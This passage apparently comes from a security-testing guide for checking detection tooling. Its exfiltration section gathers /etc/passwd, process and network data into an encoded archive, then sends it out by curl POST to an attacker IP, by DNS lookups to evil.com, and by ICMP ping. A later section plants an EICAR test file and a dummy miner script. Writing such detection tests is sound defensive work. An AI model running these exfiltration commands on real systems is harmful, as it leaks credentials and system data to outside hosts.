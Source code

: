 ### 4.3 Data Exfiltration Simulation

**Objective**: Test data loss prevention monitoring
**MITRE Tactic**: Exfiltration

```bash
# File system reconnaissance
find /var/www -name "*.conf" -o -name "*.log" | head -20
find /etc -name "passwd" -o -name "shadow" -o -name "group" 2>/dev/null

# Simulated sensitive data collection
cat /etc/passwd > /tmp/sensitive_data.txt
ps aux >> /tmp/sensitive_data.txt
netstat -tulpn >> /tmp/sensitive_data.txt

# Data compression and encoding
tar -czf /tmp/exfil.tar.gz /tmp/sensitive_data.txt
base64 /tmp/exfil.tar.gz > /tmp/exfil.b64

# Exfiltration via HTTP
curl -X POST -d @/tmp/exfil.b64 http://$KALI_IP:8080/upload

# DNS exfiltration simulation
for line in $(cat /tmp/sensitive_data.txt | base64 | tr -d '\n' | fold -w 60); do
  nslookup $line.evil.com
  sleep 1
done

# ICMP exfiltration
ping -c 1 -p $(echo "sensitive data" | xxd -p) $KALI_IP
```

**Expected Detections**:
- Large file transfers
- Unusual DNS queries
- Data encoding activities
- Suspicious network connections

---

## Scenario 5: Incident Response Testing

### 5.1 Malware Simulation

**Objective**: Test malware detection capabilities
**MITRE Tactic**: Execution

```bash
# EICAR test file (harmless malware test)
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > /tmp/eicar.com

# Copy to monitored directories
cp /tmp/eicar.com /var/www/html/
cp /tmp/eicar.com /home/ubuntu/

# Simulate cryptocurrency miner
cat > /tmp/miner.sh << 'EOF'
#!/bin/bash
while true; do
  dd if=/dev/zero of=/dev/null &
  PID=$!
  sleep 60
  kill $PID
done
EOF
```